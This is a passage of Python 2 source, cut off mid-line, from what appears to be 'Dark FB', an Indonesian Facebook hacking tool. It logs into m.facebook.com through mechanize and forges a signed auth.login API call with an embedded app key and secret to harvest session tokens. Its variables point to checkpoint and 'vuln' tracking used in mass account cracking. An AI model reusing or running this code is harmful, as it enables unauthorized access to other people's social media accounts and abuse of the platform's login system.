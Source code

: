 #!/usr/bin/python2 # coding=utf-8 import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,requests,mechanize from multiprocessing.pool import ThreadPool from requests.exceptions import ConnectionError from mechanize import Browser reload(sys) sys.setdefaultencoding('utf8') br = mechanize.Browser() br.set_handle_robots(False) br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1) br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')] def keluar(): print "\033[1;96m[!] \x1b[1;91mExit" os.sys.exit() def acak(x): w = 'mhkbpcP' d = '' for i in x: d += '!'+w[random.randint(0,len(w)-1)]+i return cetak(d) def cetak(x): w = 'mhkbpcP' for i in w: j = w.index(i) x= x.replace('!%s'%i,'\033[%s;1m'%str(31+j)) x += '\033[0m' x = x.replace('!0','\033[0m') sys.stdout.write(x+'\n') def jalan(z): for e in z + '\n': sys.stdout.write(e) sys.stdout.flush() time.sleep(0.05) logo = """ \x1b[1;93m______ \x1b[1;92m_______ \x1b[1;94m______ \x1b[1;91m___ _\n \x1b[1;93m| | \x1b[1;92m| _ |\x1b[1;94m| _ | \x1b[1;91m| | | |\n \x1b[1;93m| _ |\x1b[1;92m| |_| |\x1b[1;94m| | || \x1b[1;91m| |_| |\n \x1b[1;93m| | | |\x1b[1;92m| |\x1b[1;94m| |_||_ \x1b[1;91m| _|\n \x1b[1;93m| |_| |\x1b[1;92m| |\x1b[1;94m| __ |\x1b[1;91m| |_ \n \x1b[1;93m| |\x1b[1;92m| _ |\x1b[1;94m| | | |\x1b[1;91m| _ |\n \x1b[1;93m|______| \x1b[1;92m|__| |__|\x1b[1;94m|___| |_|\x1b[1;91m|___| |_| \x1b[1;96mFB\n\n \x1b[1;95m●▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬●\n ✫╬─ \x1b[1;92mReCode \x1b[1;91m: \x1b[1;93mLhans_Beutik \x1b[1;95m─╬✫\n ✫╬─ \x1b[1;92mFB \x1b[1;92m \x1b[1;91m: \x1b[1;96mFacebook.com/LhansBeutik \x1b[1;95m─╬✫\n ✫╬─ \x1b[1;92mGitHub \x1b[1;91m: \x1b[1;94mGithub.com/lhansbeutik \x1b[1;95m─╬✫\n ●▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬● """ def tik(): titik = ['. ','.. ','... '] for o in titik: print("\r\033[1;96m[●] \x1b[1;93mSedang masuk \x1b[1;97m"+o),;sys.stdout.flush();time.sleep(1) back = 0 threads = [] berhasil = [] cekpoint = [] oks = [] id = [] listgrup = [] vulnot = "\033[31mNot Vuln" vuln = "\033[32mVuln" def siapa(): os.system('clear') nama = raw_input("\033[1;97mSiapa nama kamu ? \033[1;91m: \033[1;92m") if nama =="": print"\033[1;96m[!] \033[1;91mIsi yang benar" time.sleep(1) siapa() else: os.system('clear') jalan("\033[1;97mSelamat datang \033[1;92m" +nama+ "\n\033[1;97mTerimakasih telah menggunakan tools ini !!") time.sleep(1) loginSC() def loginSC(): os.system('clear') print"\033[1;97mSilahkan login SC nya dulu bosque\n" username = raw_input("\033[1;96m[*] \033[1;97mUsername \033[1;91m: \033[1;92m") password = raw_input("\033[1;96m[*] \033[1;97mPassword \033[1;91m: \033[1;92m") if username =="dark" and password =="fb": print"\033[1;96m[✓] \033[1;92mLogin success" time.sleep(1) login() else: print"\033[1;96m[!] \033[1;91mSalah!!" time.sleep(1) LoginSC() def login(): os.system('clear') try: toket = open('login.txt','r') menu() except (KeyError,IOError): os.system('clear') print logo print 42*"\033[1;96m=" print('\033[1;96m[☆] \x1b[1;93mLOGIN AKUN FACEBOOK ANDA \x1b[1;96m[☆]' ) id = raw_input('\033[1;96m[+] \x1b[1;93mID/Email \x1b[1;91m: \x1b[1;92m') pwd = raw_input('\033[1;96m[+] \x1b[1;93mPassword \x1b[1;91m: \x1b[1;92m') tik() try: br.open('https://m.facebook.com') except mechanize.URLError: print"\n\033[1;96m[!] \x1b[1;91mTidak ada koneksi" keluar() br._factory.is_html = True br.select_form(nr=0) br.form['email'] = id br.form['pass'] = pwd br.submit() url = br.geturl() if 'save-device' in url: try: sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32' data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resource
